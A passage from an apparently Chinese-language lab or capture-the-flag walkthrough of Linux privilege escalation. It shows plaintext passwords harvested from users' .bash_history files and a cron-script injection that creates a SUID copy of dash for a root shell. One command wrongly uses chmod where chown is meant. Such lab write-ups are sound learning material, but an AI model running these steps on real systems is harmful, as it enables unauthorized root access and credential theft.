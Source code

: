 
并没有找到。上传一个`linpeas.sh`进行一下本地的信息搜集，找到一个特权用户：

![image-20240202210625220](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402022200988.png)

搜索`/home/peter`文件夹的时候看到了`/.bash_history`文件，猜想是否存在ssh登录记录，这也是信息搜集的重要线索。

```shell
cat ./*/.bash_history | grep 'peter'
# cat: sshpass -p JZQuyIN5 peter@localhost
# ./peter/.bash_history: Permission denied
cat ./*/.bash_history | grep '@'
# cat: sshpass -p thisimypassword ssh JKanode@localhost
# sshpass -p JZQuyIN5 peter@localhost
# ./peter/.bash_history: Permission denied
```

获取到了相应的密钥，尝试登录：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402022200989.png" alt="image-20240202213043100" style="zoom: 50%;" />

说明是打开了一个`zsh`：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402022200990.png" alt="image-20240202213303224" style="zoom:50%;" />

获取到了root！

### 计划任务提权

这是在[师傅blog](https://blog.csdn.net/weixin_60374959/article/details/128482852)中介绍的一种解法，尝试进行学习：

先查看一下定时任务：

```apl
ls -l /etc/cron*
more /etc/crontab
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402022200991.png" alt="image-20240202213912355" style="zoom:50%;" />

```shell
find / -name cronlog 2>/dev/null  							# 查看计划任务日志信息
find / -writable 2>/dev/null								# 枚举所有可写入权限的文件
find / -perm -o+w -type f 2> /dev/null | grep /proc -v  	# 枚举
find / -name logrotate* 2>/dev/null							# 查找和logrotate相关的文件信息
cat /etc/cron.d/logrotate									# 获取文件信息
# */5 *   * * *   root  /usr/local/sbin/cron-logrotate.sh   # 5min执行一次
echo "cp /bin/dash /tmp/exploit; chmod u+s /tmp/exploit;chmod root:root /tmp/exploit" >> /usr/local/sbin/cron-logrotate.sh
															# 插入恶意代码
cat /usr/local/sbin/cron-logrotate.sh						# 检查是否插入成功，等待5min以内让计划任务得以执行					
/tmp/exploit -p												# 利用logrotate定时任务的root权限执行命令！		
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202402022200992.png" alt="image-20240202215931452" style="zoom:50%;" />
